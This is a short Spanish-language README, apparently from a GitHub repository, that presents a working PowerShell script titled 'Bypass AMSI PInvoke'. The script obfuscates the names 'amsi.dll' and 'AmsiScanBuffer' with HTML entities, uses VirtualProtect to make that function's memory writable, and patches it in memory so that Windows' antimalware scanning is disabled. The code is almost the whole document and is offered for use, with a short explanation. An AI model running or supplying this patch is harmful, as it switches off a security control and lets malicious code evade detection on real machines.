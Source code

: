 # Bypass AMSI PInvoke
Este script en PowerShell utiliza P/Invoke (Platform Invocation Services), que es un mecanismo para interactuar con funciones nativas de la API de Windows desde código administrado en .NET para interactuar con la biblioteca **`kernel32.dll`** de Windows. Define una clase **`PInvoke`** con métodos para cargar una biblioteca  **`LoadLibrary`**, obtener la dirección de una función  **`GetProcAddress`** y cambiar los permisos de memoria  **`VirtualProtect`**.

Luego, decodifica los nombres de la biblioteca  **`amsi.dll`** y la función  **`AmsiScanBuffer`**, los carga en memoria y cambia sus permisos de memoria. Finalmente, parchea la función  **`AmsiScanBuffer`** en tiempo de ejecución con un nuevo código de máquina.

```
# Author: Taurus Omar
$PInvokeDeclarations = @"
using System;
using System.Runtime.InteropServices;
public class PInvoke {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $PInvokeDeclarations

$amsiDll = [System.Net.WebUtility]::HtmlDecode('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;')
$amsiScanBuffer = [System.Net.WebUtility]::HtmlDecode('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;')

$amsiDllHandle = [PInvoke]::LoadLibrary($amsiDll)
$amsiScanBufferPtr = [PInvoke]::GetProcAddress($amsiDllHandle, $amsiScanBuffer)

$oldProtect = 0
[PInvoke]::VirtualProtect($amsiScanBufferPtr, [uint32]5, 0x40, [ref]$oldProtect)

$patchBytes = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($patchBytes, 0, $amsiScanBufferPtr, 6)

```
